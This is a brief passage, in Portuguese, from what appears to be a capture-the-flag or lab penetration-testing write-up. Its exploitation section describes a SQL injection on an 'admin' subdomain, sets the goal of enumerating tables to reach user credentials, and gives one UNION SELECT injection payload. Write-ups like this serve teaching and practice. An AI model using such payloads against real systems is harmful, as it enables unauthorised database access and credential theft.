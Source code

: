 
## 3. Exploração
### 3.1 `SQL Injection`: Vulnerabilidade encontrada no sub-domínio `admin`

Agora é hora de analisar o banco e iniciar a enumeração das tabelas para encontrar credenciais de usuários.

![](attachment/9f612940c1b06657d94c15d85d4e27fc.png)

`title=help' UNION SELECT version(), null, null-- -`